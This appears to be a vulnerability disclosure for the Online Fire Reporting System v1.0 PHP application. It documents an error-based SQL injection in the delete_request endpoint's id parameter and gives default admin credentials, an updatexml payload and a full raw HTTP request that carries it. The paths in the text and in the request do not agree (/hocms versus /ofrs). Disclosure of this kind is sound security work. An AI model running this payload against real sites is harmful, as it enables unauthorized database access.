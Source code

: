 # Online Fire Reporting System v1.0  has SQL injection vulnerability

Login account: admin/admin123

vendor : https://www.sourcecodester.com/php/15346/online-fire-reporting-system-phpoop-free-source-code.html

Vulnerability file: /hocms/classes/Master.php?f=delete_request

![image-20220522140811592](https://s2.loli.net/2022/05/22/VZLGWzalmufxvFq.png)



Vulnerability location: /hocms/classes/Master.php?f=delete_request,id

[+]Payload: id=2' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ //id is Injection point

```
POST /ofrs/classes/Master.php?f=delete_request HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 65
Origin: http://localhost
Connection: close
Referer: http://localhost/ofrs/classes/Master.php?f=delete_team
Cookie: UM_distinctid=17edc5ecd369-032851db15155a-4c3e237c-144000-17edc5ecd374b2; CNZZDATA585346=cnzz_eid%3D1638517557-1644367242-%26ntime%3D1644367242; PHPSESSID=0nngc9rh9jt0i53ha9ueig8r9c
Upgrade-Insecure-Requests: 1

id=2' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image-20220522132422382](https://s2.loli.net/2022/05/22/MVa1obKHyrecfu8.png)

![image-20220522135617115](https://s2.loli.net/2022/05/22/iAqTFlK68HrZySz.png)


